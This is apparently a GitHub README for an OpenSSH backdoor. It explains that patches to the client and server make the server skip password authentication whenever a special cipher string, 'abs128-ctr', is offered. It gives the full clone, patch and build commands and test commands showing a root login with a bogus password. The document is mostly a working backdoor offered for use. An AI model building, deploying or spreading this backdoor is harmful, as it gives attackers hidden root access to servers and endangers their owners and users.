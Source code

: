 # openssh-backdoor
Experimental backdoor for OpenSSH Portable. 

## How does it work?

This repo contains a patch for OpenSSH (server and client) to allow for a complete authentication bypass without modifying configuration files on the target server endpoint, adding new users, overwriting credentials, etc. The patch creates a special cipher suite, in this case `abs128-ctr`, that acts as an activation phrase for the backdoor. The OpenSSH client is modified to allow for this new cipher suite string to be sent, and the OpenSSH server, upon receiving the special cipher suite string, will bypass PASSWD authentication for the session. 

## Installation and Patching 

The following commands when issued will patch OpenSSH and produce a modified ssh client in `/tmp/ssh` and a modified server in `/usr/local/sbin/sshd`. 

```
git clone https://github.com/openssh/openssh-portable
https://github.com/Psmths/openssh-backdoor
cp ./openssh-backdoor/*.patch ./openssh-portable/
cd openssh-portable/
patch -u auth-passwd.c -i auth-passwd.c.patch
patch -u auth.c -i auth.c.patch
patch -u cipher.c -i cipher.c.patch 
patch -u kex.c -i kex.c.patch
patch -u kex.h -i kex.h.patch
patch -u packet.h -i packet.h.patch
patch -u servconf.c -i servconf.c.patch
patch -u ssh.c -i ssh.c.patch
patch -u sshd.c -i sshd.c.patch
autoreconf
./configure --bindir=/tmp/
make -j 16
```

To test, run the modified server binary and set it to listen on some port:

`
sudo /usr/local/sbin/sshd -p 9001
`

Attempt to authenticate without the special cipher suite string, and a bogus password. This should fail.
`
/tmp/ssh root@127.0.0.1 -p 9001 -c "chacha20-poly1305@openssh.com"
`

Attempt to authenticate with the special cipher suite string, in this case `abs128-ctr`, and a bogus password. This should seccessfully authenticate you as root.
`
/tmp/ssh root@127.0.0.1 -p 9001 -c "abs128-ctr,chacha20-poly1305@openssh.com"
`
